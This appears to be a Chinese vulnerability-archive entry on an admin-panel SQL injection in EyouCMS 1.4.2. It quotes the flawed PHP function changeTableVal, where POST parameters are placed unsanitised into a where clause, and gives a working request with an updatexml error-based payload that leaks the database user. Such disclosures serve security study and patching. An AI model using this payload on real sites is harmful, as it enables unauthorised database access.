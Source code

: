Eyoucms 1.4.2 后台注入
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

/application/admin/controller/Index.php

    public function changeTableVal()
    {
        if (IS_AJAX_POST) {
            $url = null;
            $data = [
                'refresh'   => 0,
            ];
            $table = input('post.table/s'); // 表名
            $id_name = input('post.id_name/s'); // 表主键id名
            $id_value = input('post.id_value/s'); // 表主键id值
            $field  = input('post.field/s'); // 修改哪个字段
            $value  = input('post.value/s', '', null); // 修改字段值  
            switch ($table) {
                // 会员等级表
                case 'users_level':
                    {
                        $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员属性表
                case 'users_parameter':
                    {
                        $return = model('UsersParameter')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员中心菜单表
                case 'users_menu':
                    {
                        Db::name('users_menu')->where('id','gt',0)->update([
                                'is_userpage'   => 0,
                                'update_time'   => getTime(),
                            ]);
                        $data['refresh'] = 1;
                    }
                    break;
                
                // 会员投稿功能
                case 'archives':
                    {
                        if ('arcrank' == $field) {
                            if (0 == $value) {
                                $value = -1;
                            }else{
                                $value = 0;
                            }
                        }
                    }
                    break;
                // 会员产品类型表
                case 'users_type_manage':
                    {
                        if (empty($value)) {
                            $this->error('不可为空');
                        }
                    }
                    break;
                default:
                    # code...
                    break;
            }
            $savedata = [
                $field => $value,
                'update_time'   => getTime(),
            ];
            M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据
            // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
            switch ($table) {
                case 'auth_modular':
                    extra_cache('admin_auth_modular_list_logic', null);
                    extra_cache('admin_all_menu', null);
                    break;
                
                default:
                    // 清除logic逻辑定义的缓存
                    extra_cache('admin_'.$table.'_list_logic', null);
                    // 清除一下缓存
                    // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
                    \think\Cache::clear($table);
                    break;
            }
            /*清除页面缓存*/
            // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
            // $htmlCacheLogic->clear_archives();
            /*--end*/
            
            $this->success('更新成功', $url, $data);
        }
    }

第307行：

    M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据

直接将函数头获取的POST传入SQL语句里面：

    $table = input('post.table/s'); // 表名
    $id_name = input('post.id_name/s'); // 表主键id名
    $id_value = input('post.id_value/s'); // 表主键id值
    $field  = input('post.field/s'); // 修改哪个字段
    $value  = input('post.value/s', '', null); // 修改字段值

### 漏洞复现

payload：

    http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal


    post:

    table=admin&id_name=admin_id&id_value='1'//and//updatexml(1,concat(0x7e,user(),0x7e),1)

![](./resource/Eyoucms1.4.2后台注入/media/rId26.png)

四、参考链接
------------

> http://www.f4ckweb.top/index.php/archives/47/
